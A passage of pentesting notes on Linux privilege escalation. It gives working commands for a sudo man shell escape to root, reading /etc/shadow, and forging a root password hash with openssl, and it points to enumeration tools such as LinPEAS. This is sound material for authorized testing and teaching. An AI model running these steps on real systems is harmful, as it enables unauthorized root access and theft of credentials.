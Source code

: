 The man entry depicts that the man command can be run using sudo without providing any password. Run it and launch /bin/bash from it.

```bash
sudo man ls
!/bin/bash
```

After this, escalated to root user is successful.

if file /etc/shadow is world writable, we can read its contents.

```bash
ls -l /etc/shadow
cat /etc/shadow
```

If root password isn't set. We can adding a known password in shadow file, one can escalate to root. Use openssl to generate a password entry.&#x20;

```bash
openssl passwd -1 -salt abc password #setting new psw
```

### LinPeas

LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" %}

### Bashark

It's another automatic tool to do identify vulnerabilities in Linux.

{% embed url="https://github.com/redcode-labs/Bashark/blob/master/bashark.sh" %}

### Linux Exploit Suggester

In addition to the last tool, [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)help us to suggest potential exploits.

​Of course we need to launch it on victim machine downloading it or transferring there (E.g. using a python [SimpleHTTPServer](https://docs.python.org/2/library/simplehttpserver.html))

{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

{% embed url="https://www.kali.org/tools/linux-exploit-suggester/" %}

### Linux Persistence

> ❗ **Persistence techniques and methods usually require administrative access and must follow the rules of engagement agree with the customer.**

Persistence Techniques - MITRE ATT\&CK

<div align="left"><figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e1c96da6aca06c8dfa53800abbbb690af27ac2e6%2Fimage-20230429130516537.png?alt=media" alt=""><figcaption></figcaption></figure></div>
